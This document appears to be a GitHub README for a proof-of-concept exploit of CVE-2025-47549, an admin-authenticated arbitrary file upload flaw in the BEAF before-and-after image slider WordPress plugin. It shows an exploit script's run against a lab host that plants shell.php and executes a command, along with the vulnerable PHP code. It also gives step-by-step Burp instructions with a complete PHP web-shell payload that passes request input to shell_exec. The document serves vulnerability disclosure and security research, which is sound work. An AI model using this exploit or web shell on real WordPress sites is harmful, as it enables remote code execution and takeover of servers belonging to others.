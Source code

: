 # Ultimate Before After Image Slider & Gallery – BEAF <= 4.6.10 - Authenticated (Admin+) Arbitrary File Upload via beaf_options_save


The [Ultimate Before After Image Slider & Gallery](https://wordpress.org/plugins/beaf-before-and-after-gallery/) plugin does not sanitize the file types of the `beaf_options_save` action, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47549.py](./CVE-2025-47549.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
python3 CVE-2025-47549.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 68200sec preferred_lft 68200sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86113sec preferred_lft 14113sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>

```

## Details  
The `beaf_options_save` action calls the `beaf_save_options()` function on line [227](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L227) of `/wp-content/plugins/beaf-before-and-after-gallery/admin/tf-options/classes/BEAF_Settings.php` without enforcing any file type validation. 

Lines [281-292](https://plugins.trac.wordpress.org/browser/beaf-before-and-after-gallery/trunk/admin/tf-options/classes/BEAF_Settings.php#L281-292) of this function check the http request for `$_FILES` and only validates the mime type agains a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.
```php
    if ( isset( $_FILES ) && ! empty( $_FILES['file'] ) ) {
        $tf_upload_dir = wp_upload_dir();
        if ( ! empty( $tf_upload_dir['basedir'] ) ) {
            $tf_itinerary_fonts = $tf_upload_dir['basedir'] . '/itinerary-fonts';
            if ( ! file_exists( $tf_itinerary_fonts ) ) {
                wp_mkdir_p( $tf_itinerary_fonts );
            }
            $tf_fonts_extantions = array( 'application/octet-stream' );
            for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
                if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
                    $tf_font_filename = $_FILES['file']['name'][ $i ];
                    move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
                }
            }
        }
    }
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Before and After Slider -> Settings`.
    * Example: `https://lab1.hacker/wp-admin/edit.php?post_type=bafg&page=beaf_settings`.
2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 
3. Click the `Save` button in the lower right hand corner. 
![test1](./images/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
6. Modify the next request containing the form data to set the file name to `poc.php`: 
![test2](./images/2.png)
7. Naviage to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](./images/3.png)
